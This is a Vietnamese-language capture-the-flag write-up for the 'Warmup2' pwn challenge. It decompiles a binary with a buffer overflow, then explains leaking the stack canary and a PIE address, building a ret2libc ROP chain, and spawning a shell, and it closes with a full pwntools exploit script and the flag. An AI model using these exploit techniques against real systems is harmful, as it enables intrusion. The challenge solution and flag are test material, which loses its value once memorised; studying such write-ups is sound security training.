










# Warmup2 (Pwn)

<figure><figcaption><p>Challange</p></figcaption></figure>

<figure><figcaption><p>Checksec</p></figcaption></figure>

Decompile bằng Ghidra

```c
undefined8 main(void)

{
  alarm(0x3c);
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  vuln();
  return 0;
}
void vuln(void)

{
  long in_FS_OFFSET;
  char input [264];
  long stack_canary;
  
  stack_canary = *(long *)(in_FS_OFFSET + 0x28);
  puts("What\'s your name?");
  read(0,input,4919);
  printf("Hello %s!\n",input);
  puts("How old are you?");
  read(0,input,4919);
  printf("Wow, I\'m %s too!\n",input);
  if (stack_canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Bài này có chứa stack canary, nên phải leak nó trước khi muốn ghi đè địa chỉ trả về.

Hãy để ý đến hàm read, hàm này không chuyển byte `\n` thành byte null. Chuyện gì sẽ xảy ra nếu lấp đầy biến input với 264 byte? Vì không có null byte nên hàm printf sẽ hiểu string chưa kết thúc và tiếp tục in dữ liệu sau nó ra -> leak stack canary.

Hãy thử nhập 263 chữ A ( tất nhiên byte thứ 264 sẽ là `\n` )

<figure><figcaption><p>WTF</p></figcaption></figure>

WTF, sao lại chả leak được gì?

Khi mình kiểm tra stack canary hóa ra byte đầu tiên của nó luôn là null

<figure><figcaption></figcaption></figure>

Vậy nên ta sẽ ghi đè luôn byte đầu tiên của stack canary là `\n`&#x20;

<figure><figcaption><p>Đúng như mong đợi</p></figcaption></figure>

Viết script để xuất leak steak canary

```python
p.recv()
z(1)#slepp
p.sendline(b"A"*264)
z(1)
p.recvuntil(b"A"*264+b"\n")
z(1)
leak=p.recvuntil(b"\n")[0:7][::-1]+b"\x00"
log.info(f"Leak canary: {leak.hex()}")
canary=int(leak.hex(),16)#leak stack canary
```

Giờ có được canary rồi, ghi đè saved rip để đi đến đâu? Binary này bật PIE nên ta cần leak thêm địa chỉ của hàm nào đó trong binary. Mình nghĩ khả dĩ nhất là địa chỉ trả về của vuln vì nó cũng ở trong stack (ngay sau canary).

Nhưng giờ chỉ còn thực thi thêm một lần read. Không thể thay đổi canary nhưng canary lại chứa null byte -> không thể leak địa chỉ trả về.

Giờ chỉ còn cách quay lại gọi hàm vuln một lần nữa. Mình cho trả về lúc call hàm vuln trong hàm main thêm một lần nữa vì đơn giản chỉ cần thay đổi 1 byte ( `e2` -> `dd` ).

<figure><figcaption></figcaption></figure>

Script để leak

```python
padding=b"A"*264+p64(canary)+b"B"*8

p.send(padding+b"\xdd")#ret2 call vuln
z(1)
p.recvuntil(b"A"*264)
z(1)
p.send(b"A"*(264+8))
z(1)
p.recvuntil(b"A"*(264+8))
z(1)
p.recvuntil(b"B"*8)
z(1)
leak1=p.recvuntil(b'\n')[0:6][::-1].hex()#leak main
log.info(f"Leak *main+68: 0x{leak1}")

main=int(leak1,16)-68
```

<figure><figcaption><p>It works!</p></figcaption></figure>

Có được địa chỉ main rồi giờ mình sẽ gọi puts\_plt(... got) để leak libc.

```python
main=int(leak1,16)-68
pop_rdi=main+181
puts_got  =main+e.got["puts"]  -e.sym["main"]
printf_got=main+e.got["printf"]-e.sym["main"]
read_got  =main+e.got["read"]  -e.sym["main"]
puts_plt  =main+e.plt["puts"]  -e.sym["main"]
vuln      =main+e.sym["vuln"]  -e.sym["main"]
p.sendline(padding+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(pop_rdi)+p64(printf_got)+p64(puts_plt)+p64(pop_rdi)+p64(read_got)+p64(puts_plt)+p64(vuln))
z(1)
p.recvuntil(b"too!\n")
z(1)
leak_puts=p.recvuntil(b"\n")[0:6][::-1].hex()
z(1)
log.info(f"puts: 0x{leak_puts}")
leak_printf=p.recvuntil(b"\n")[0:6][::-1].hex()
z(1)
log.info(f"printf: 0x{leak_printf}")
leak_read=p.recvuntil(b"\n")[0:6][::-1].hex()
z(1)
log.info(f"read: 0x{leak_read}")
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Mình sẽ thử với libc6\_2.31-0ubuntu9.9\_amd64.so trước.

Full script

```python
#!/usr/bin/python
from pwn import *
from time import sleep as z
e=ELF("./chal")
libc=ELF("./libc6_2.31-0ubuntu9.9_amd64.so")
#context.log_level='debug'
p=remote("warmup2.ctf.maplebacon.org",1337)
p.recv()
z(1)
p.sendline(b"A"*264)
z(1)
p.recvuntil(b"A"*264+b"\n")
z(1)
leak=p.recvuntil(b"\n")[0:7][::-1]+b"\x00"
log.info(f"Leak canary: {leak.hex()}")
canary=int(leak.hex(),16)#leak stack canary
padding=b"A"*264+p64(canary)+b"B"*8

p.send(padding+b"\xdd")#ret2 call vuln
z(1)
p.recvuntil(b"A"*264)
z(1)
p.send(b"A"*(264+8))
z(1)
p.recvuntil(b"A"*(264+8))
z(1)
p.recvuntil(b"B"*8)
z(1)
leak1=p.recvuntil(b'\n')[0:6][::-1].hex()#leak main
log.info(f"Leak *main+68: 0x{leak1}")

main=int(leak1,16)-68
pop_rdi=main+181
puts_got  =main+e.got["puts"]  -e.sym["main"]
printf_got=main+e.got["printf"]-e.sym["main"]
read_got  =main+e.got["read"]  -e.sym["main"]
puts_plt  =main+e.plt["puts"]  -e.sym["main"]
vuln      =main+e.sym["vuln"]  -e.sym["main"]
p.sendline(padding+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(pop_rdi)+p64(printf_got)+p64(puts_plt)+p64(pop_rdi)+p64(read_got)+p64(puts_plt)+p64(vuln))
z(1)
p.recvuntil(b"too!\n")
z(1)
leak_puts=p.recvuntil(b"\n")[0:6][::-1].hex()
z(1)
log.info(f"puts: 0x{leak_puts}")
leak_printf=p.recvuntil(b"\n")[0:6][::-1].hex()
z(1)
log.info(f"printf: 0x{leak_printf}")
leak_read=p.recvuntil(b"\n")[0:6][::-1].hex()
z(1)
log.info(f"read: 0x{leak_read}")
system=int(leak_puts,16)+libc.sym["system"]-libc.sym["puts"]
binsh =int(leak_puts,16)+next(libc.search(b"/bin/sh"))-libc.sym["puts"]
p.sendline(b"1")
z(1)
p.sendline(padding+p64(pop_rdi)+p64(binsh)+p64(vuln+180)+p64(system))

p.interactive()
```

<figure><figcaption></figcaption></figure>

Flag :`maple{we_have_so_much_in_common}`
